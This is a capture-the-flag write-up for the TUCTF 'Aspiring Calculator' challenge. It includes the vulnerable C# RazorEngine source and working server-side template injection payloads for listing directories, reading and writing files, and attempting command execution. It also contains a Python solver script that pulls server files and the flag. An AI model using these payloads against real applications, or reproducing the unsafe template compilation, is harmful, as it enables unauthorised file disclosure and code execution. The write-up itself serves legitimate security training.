



# Aspiring Calculator [21 Solves]

## Description

> This is my first time programming a web calculator. I hope it works!
>
> <https://aspiring-calculator.tuctf.com>
>
> Attachments: Calculator.cshtml.cs

<details><summary>Calculator.cshtml.cs</summary>

```csharp
using Microsoft.AspNetCore.Mvc;
using Microsoft.AspNetCore.Mvc.RazorPages;
using RazorEngine;
using RazorEngine.Templating;

using System.Threading;
using System.Threading.Tasks;

namespace challenge.Pages;

public class CalculatorModel : PageModel
{
    private readonly ILogger<IndexModel> _logger;

    public CalculatorModel(ILogger<IndexModel> logger)
    {
        _logger = logger;
    }

    public void OnGet()
    {
    }


    public void OnPost()
    {
        var calculation = Request.Form["calculation"];

        if (!calculation.Contains("@"))
        {
            calculation = $"@({calculation})";
        }

        ViewData["result"] = "Result: " + calculation;

        var templateKey = Guid.NewGuid().ToString();
        var tpl = $"{calculation}";

        var cancellationTokenSource = new CancellationTokenSource(TimeSpan.FromSeconds(10));
        var cancellationToken = cancellationTokenSource.Token;

        var compileTask = Task.Run(() =>
        {
            return Engine.Razor.RunCompile(tpl, templateKey, null, new { result = calculation });
        }, cancellationToken);

        var completedTask = Task.WhenAny(compileTask, Task.Delay(TimeSpan.FromSeconds(10), cancellationToken)).Result;

        if (completedTask == compileTask)
        {
            ViewData["result"] = compileTask.Result;
        }
        else
        {
            ViewData["result"] = "Timeout occurred";
        }
    }
}
```

</details>

## Flag

TUCTF{SST1_1NT0_D0TN3T_1S_L3_EP1C_184598}

## Solution

### Overview

```csharp
// Calculator.cshtml.cs: attachment file

            return Engine.Razor.RunCompile(tpl, templateKey, null, new { result = calculation });
```

Looking at the source code, it appears that this application is implemented in C# and uses RazorEngine template engine [^1].
The variable `tpl` is user-controllable, arbitrary templates can be used.
As SSTI seems possible, I will search for useful functionalities.

A quick glance at the Razor documentation [^2][^3] reveals that variables can be accessed using `@` symbol, such as `@Model.Name`, and C# `using` directives can be used with `@using`.
There is also a payload [^4] that can execute a shell command using `@System.Diagnostics.Process.Start`.
I will give it a try for Arbitrary Command Execution.

### Understanging how the Calculator is working

Tested the calculator on the [POST] /Calculator endpoint in the browser, the request recorded in Burp Proxy had parameters `calculation`, `calcResult`, and `__RequestVerificationToken`.
However, tested these parameters in Burp Repeater, I found that the calculator works fine with just the `calculation` parameter.
While I assume `__RequestVerificationToken` is a CSRF token, it doesn't seem to be mandatory.

In the following, I will execute and test a request in Repeater as follows:

```text
POST /Calculator HTTP/2
Host: aspiring-calculator.tuctf.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

calculation=7*7
```

As a beginning, I'll use `@DateTime.Now`.



It worked without errors.
I will test its functionality with various payloads.

- `@(DateTime.now)`: Using parentheses `()`, it returned a 500 Internal Server Error.
- `@Model`: it returned `{ result = @(@Model) }`
- `@Model.result`: it returned `@(@Model.result)`
- `@result`: it returned 500 Internal Server Error

```csharp
// Calculator.cshtml.cs: attachment file

        if (!calculation.Contains("@"))
        {
            calculation = $"@({calculation})";
        }
```

According to the attached source code, if the `@` is not included in the calculator parameter, it is enclosed with `@()`.
However, it seems that all calculator's value are rendered as templates after being enclosed with `@()`.
Since it's inconvenient to always have it enclosed with `@()`, I'll try using a payload like `1)<inject code>@(2`.

Note: Spaces needed to be encoded as `+`.
Using %20 resulted in an error.

- `1337)@using+System@{}@(1337`: it returned `13371337`

After using `@using` which is a reserved keyword, and not receiving a 500 error, it seems like this payload format is usable.

Among the Razor SSTI payloads [^4], it seems we can execute shell commands using `@System.Diagnostics.Process.Start`.
However, when sending this payload, it returned 500 error.
Since the details of the error are unclear, I will try executing a similar payload in a local environment.

### Test in local

setup:

```bash
# ref: https://khalidabuhakmeh.com/generate-outputs-with-razor-engine-in-dotnet-core

dotnet --version
# output => 6.0.400

# Setup dotnet TestApp in Kali
dotnet new console -o TestApp --framework net6.0 --use-program-main && cd TestApp
dotnet run  # sanity check
# output => Hello, World!

# Install RazorEngine: https://www.nuget.org/packages/RazorEngine.NetCore
dotnet add package RazorEngine.NetCore
```

```csharp
// Program.cs
namespace TestApp;

using RazorEngine;
using RazorEngine.Templating;

class Program
{
    static void Main(string[] args)
    {
        var calculation = "1)@System.Diagnostics.Process.Start(\"id\")@(1";

        calculation = $"@({calculation})";
        var tpl = $"{calculation}";

        var result = Engine.Razor.RunCompile(tpl, "templatekey", null, new { result = calculation });
        Console.WriteLine(result);
    }
}
```

Result:

```console
$ dotnet run
Unhandled exception. RazorEngine.Templating.TemplateCompilationException: Errors while compiling a Template.
Please try the following to solve the situation:
  * If the problem is about missing/invalid references or multiple defines either try to load
    the missing references manually (in the compiling appdomain!) or
    Specify your references manually by providing your own IReferenceResolver implementation.
    See https://antaris.github.io/RazorEngine/ReferenceResolver.html for details.
    Currently all references have to be available as files!
  * If you get 'class' does not contain a definition for 'member':
        try another modelType (for example 'null' to make the model dynamic).
        NOTE: You CANNOT use typeof(dynamic) to make the model dynamic!
    Or try to use static instead of anonymous/dynamic types.
More details about the error:
 - error: (15, 18) The type name 'Process' could not be found in the namespace 'System.Diagnostics'. This type has been forwarded to assembly 'System.Diagnostics.Process, Version=6.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a' Consider adding a reference to that assembly.
Temporary files of the compilation can be found in (please delete the folder): /tmp/RazorEngine_kedmehed.edv
The template we tried to compile is:
------------- START -----------
@(1)@System.Diagnostics.Process.Start("id")@(1)
------------- END -----------
(snip)
```

After testing in the local environment, it couldn't be used too.
Even with `1)@using System.Diagnostics.Process@(1`, the same error occurred.

Upon searching for other available functionalities, I found that `Directory.GetFileSystemEntries` and `File.ReadAllText` from System.IO could be used.

```csharp
// Program.cs
namespace TestApp;

using RazorEngine;
using RazorEngine.Templating;
class Program
{
    static void Main(string[] args)
    {
        // write file:
        // local OK, challenge NG
        // string text = "pwned";
        // File.WriteAllText("test.txt", text);

        // shell command:
        // local NG, challenge NG
        // var calculation = "@code { @System.Diagnostics.Process.Start(\"id\");}";
        // var calculation = "13371337)@using System.Diagnostics @{System.Diagnostics.ProcessStartInfo(\"ls\");}@(13371337";

        // get current directory name:
        // local OK, challenge OK
        // var calculation = "13371337)@using System.IO@{var dir=Directory.GetCurrentDirectory();}@dir@(13371337";

        // directory listing:
        // local OK, challenge OK
        // var calculation = "13371337)@using System.IO @{var output=string.Join(\"    \",Directory.GetFileSystemEntries(\".\"));}@output@(13371337";

        // read file:
        // local OK, challenge OK
        // var calculation = "13371337)@using System.IO@{var output=File.ReadAllText(\"test.txt\");}@output@(13371337";

        // read file and base64 output:
        // local OK, challenge OK
        var calculation = "13371337)@using System@using System.Text@using System.IO@{var output=Convert.ToBase64String(Encoding.UTF8.GetBytes(File.ReadAllText(\"test.txt\")));}@output@(13371337";

        // write file:
        // local OK, challenge NG
        // var calculation = "13371337)@using System.IO @{File.WriteAllText(\"test.txt\", \"pwned\");} @(13371337";

        calculation = $"@({calculation})";
        var tpl = $"{calculation}";

        var result = Engine.Razor.RunCompile(tpl, "templatekey", null, new { result = calculation });
        Console.WriteLine(result);
    }
}
```

Result:

```console
$ echo hello world > test.txt

$ dotnet run
13371337aGVsbG8gd29ybGQK13371337

$ echo -n aGVsbG8gd29ybGQK | base64 -d
hello world
```

### Test by Burp Repeater

I executed the payload tested in the local environment on the challenge server using Burp Repeater.

- Directory listing payload: `calculation=0)@using+System.IO@{var+output=string.Join("++++",Directory.GetFileSystemEntries("/app"));}@output@(0`

  result: 

- Read file payload: `calculation=0)@using+System+@using+System.Text+@using+System.IO@{var+output=Convert.ToBase64String(Encoding.UTF8.GetBytes(File.ReadAllText("/app/challenge")));}@output@(0`:

  result: 

### Exploit Script

I executed Python script to send payloads similar to the above, and the results are as follows:

```python
# solver.py
import base64
from html import unescape
import requests
import re
from pwn import args
from pprint import pprint

requests.packages.urllib3.disable_warnings()
s = requests.Session()
# s.proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
s.verify = False


def main():
    BASE_URL = "https://aspiring-calculator.tuctf.com"

    if directory := args.DIR:
        payload = f'13371337)@using System.IO@{{var output=string.Join("SEPARATE",Directory.GetFileSystemEntries("{directory}"));}}@output@(13371337'
        # print(payload)
        data = {"calculation": payload}
        res = s.post(f"{BASE_URL}/Calculator", data=data)
        res.raise_for_status()

        if not (m := re.findall(r"13371337(.*?)13371337", res.text)):
            print("not matched")
            return

        pprint(m[0].split("SEPARATE"))

    elif file := args.FILE:
        payload = f'13371337)@using System.IO@{{var output=File.ReadAllText("{file}");}}@output@(13371337'
        # print(payload)
        data = {"calculation": payload}
        res = s.post(f"{BASE_URL}/Calculator", data=data)
        res.raise_for_status()

        if not (m := re.findall(r"13371337(.*?)13371337", res.text)):
            print("not matched")
            return

        print(unescape(m[0]))

    elif b64file := args.B64FILE:
        payload = f'13371337)@using System@using System.Text@using System.IO@{{var output=Convert.ToBase64String(Encoding.UTF8.GetBytes(File.ReadAllText("{b64file}")));}}@output@(13371337'
        # print(payload)
        data = {"calculation": payload}
        res = s.post(f"{BASE_URL}/Calculator", data=data)
        res.raise_for_status()

        if not (m := re.findall(r"13371337(.*?)13371337", res.text)):
            print("not matched")
            return

        print(base64.b64decode(unescape(m[0]).encode()).decode())


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py DIR=/app/
['/app/Microsoft.CodeAnalysis.dll',
 '/app/RazorEngine.NetCore.dll',
 '/app/challenge.dll',
 '/app/System.Security.Permissions.dll',
 '/app/zh-Hans',
 '/app/pt-BR',
 '/app/zh-Hant',
 '/app/System.Drawing.Common.dll',
 '/app/fr',
 '/app/challenge.deps.json',
 '/app/web.config',
 '/app/ko',
 '/app/de',
 '/app/cs',
 '/app/tr',
 '/app/wwwroot',
 '/app/pl',
 '/app/System.Windows.Extensions.dll',
 '/app/Microsoft.AspNetCore.Razor.Language.dll',
 '/app/ja',
 '/app/challenge',
 '/app/challenge.pdb',
 '/app/published',
 '/app/it',
 '/app/runtimes',
 '/app/Microsoft.Win32.SystemEvents.dll',
 '/app/ru',
 '/app/es',
 '/app/challenge.runtimeconfig.json',
 '/app/Microsoft.CodeAnalysis.CSharp.dll',
 '/app/appsettings.Development.json',
 '/app/appsettings.json']
```

### Leaked challenge.dll file and got the flag

Downloaded challenge, challenge.pdb and challenge.dll.
Then, got the flag using the `strings` command for challenge.dll.

```console
$ python3 solver.py B64FILE=/app/challenge > challenge

$ file challenge
challenge: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), corrupted program header size, corrupted section header size

$ strings challenge | grep -iE '(flag|ctf)'  # nothing

$ python3 solver.py B64FILE=/app/challenge.pdb > challenge.pdb

$ file challenge.pdb
challenge.pdb: Microsoft Roslyn C# debugging symbols version 1.0

$ strings -a -n 5 -t x challenge.pdb | grep -iE '(flag|ctf)'
   10be Flag.cshtml.cs
   2deb Pages_Flag_cshtml.g.cs  /
   d6d0 Flag.cshtml

$ python3 solver.py B64FILE=/app/challenge.dll > challenge.dll

$ file challenge.dll
challenge.dll: MS-DOS executable

$ strings -a -n 5 -t x challenge.dll | grep -iE '(flag|ctf)'
   a571 <flag>5__1
   b25f Pages_Flag
   b26a GetFlag
   b414 FlagModel
   bcf6 NullableFlags
   bd04 CSharpArgumentInfoFlags
   bd1c CSharpBinderFlags
  1118c challenge.Pages.Pages_Flag
  111ba /Pages/Flag.cshtml
  11408 -challenge.Pages.Pages_Flag+<ExecuteAsync>d__0
  11d06 /Pages/Flag.cshtml

$ hd challenge.dll
(snip)
0000c4e0  65 00 21 00 00 53 54 00  55 00 43 00 54 00 46 00  |e.!..ST.U.C.T.F.|
0000c4f0  7b 00 53 00 53 00 54 00  31 00 5f 00 31 00 4e 00  |{.S.S.T.1._.1.N.|
0000c500  54 00 30 00 5f 00 44 00  30 00 54 00 4e 00 33 00  |T.0._.D.0.T.N.3.|
0000c510  54 00 5f 00 31 00 53 00  5f 00 4c 00 33 00 5f 00  |T._.1.S._.L.3._.|
0000c520  45 00 50 00 31 00 43 00  5f 00 31 00 38 00 34 00  |E.P.1.C._.1.8.4.|
0000c530  35 00 39 00 38 00 7d 00  00 0d 6d 00 65 00 74 00  |5.9.8.}...m.e.t.|
(snip)

$ # remove null bytes, then strings

$ tr -d '\000' < challenge.dll | strings -a -n 5 -t x | grep -iEo 'tuctf{.*}'
TUCTF{SST1_1NT0_D0TN3T_1S_L3_EP1C_184598}
```

## Footnotes

[^1]: [RazorEngine](https://antaris.github.io/RazorEngine/)
[^2]: [Razor syntax reference for ASP.NET Core \| Microsoft Learn](https://learn.microsoft.com/en-us/aspnet/core/mvc/views/razor?view=aspnetcore-8.0)
[^3]: [Razor Cheat Sheet / Quick Reference \[C#/VB.NET Syntax\]](https://razorcheatsheet.com)/
[^4]: [SSTI (Server Side Template Injection) - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#razor-.net)
